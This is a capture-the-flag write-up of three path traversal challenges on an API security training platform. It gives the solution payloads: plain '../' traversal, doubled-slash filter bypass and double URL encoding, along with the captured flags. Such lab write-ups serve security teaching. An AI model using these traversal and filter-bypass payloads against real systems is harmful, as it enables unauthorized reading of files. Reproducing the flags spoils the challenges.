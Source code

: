 ## Slash and Dash

### Roads Less Traveled  

Designed By: Josh Cutting - Maltek Solutions  
Points: 50 Create Task

Ever feel like the web is hiding secrets just beneath the surface? You're right. This challenge drops you into a janky search API with a serious trust issue—it happily believes whatever path you feed it. Your objective: go off the beaten path, dodge the digital bouncers, and unearth the legendary `flag.txt` lurking in a **private** spot at the root of the filesystem. Pro tip: Sometimes, the way forward is actually up.. and back.

[https://roads-less-traveled.ac25.apisecuniversity.com](https://roads-less-traveled.ac25.apisecuniversity.com)

Solution:

Here there was no filter, just perform the path traversal.

```
../private/flag.txt
```

![](imagens/2025-05-24_15-29.png)

```json
flag{D1R_TR4V3RS4L_F1L3_4CC3SS}
```

### Filtered Fun  

Designed By: Josh Cutting - Maltek Solutions  
Points: 100 Create Task

Step into the shadows of the web with this entry-level exploit challenge from the underground. Our shady search API has a _tiny_ flaw… and you’re just the right mischief-maker to exploit it. Your mission: break out of the sandbox, sidestep the guards, and sneak a peek at the elusive `flag.txt` stashed in a **private** place at the root of the filesystem. Can you wiggle through the layers and unravel the filter’s tricks?

[https://filtered-fun.ac25.apisecuniversity.com](https://filtered-fun.ac25.apisecuniversity.com)

Solution:

Here it was enough to duplicate the slashes to bypass the filter.

```
....//private//flag.txt
```

![](imagens/2025-05-24_15-31.png)

```json
flag{F1LT3R_BYP4SS_D0T_D0T_SL4SH}
```

### Encoded Escapades  

Designed By: Josh Cutting - Maltek Solutions  
Points: 150 Create Task

The filesystem holds secrets—but this time, the path to truth is scrambled. You’ve found a quirky search API that’s a little too trusting and a little too encoded for its own good. Your objective: decode the madness, navigate through the layers of obfuscation, and uncover the **private** sacred relic known as `flag.txt`, hidden at the root of the system. Think traversal, but with a twist. Some breadcrumbs are plain text. Others? Not so much. Get ready to crack encodings, climb directories, and break the rules—one byte at a time.

[https://encoded-escapades.ac25.apisecuniversity.com](https://encoded-escapades.ac25.apisecuniversity.com)

Solution:

To bypass the filter here, it was necessary to double URL encode.

```
%252E%252E%252Fprivate%252Fflag%252Etxt
```

![](imagens/2025-05-24_15-33_1.png)

```json
flag{D0UBL3_3NC0D1NG_TR4V3R54L_M45T3R}
```

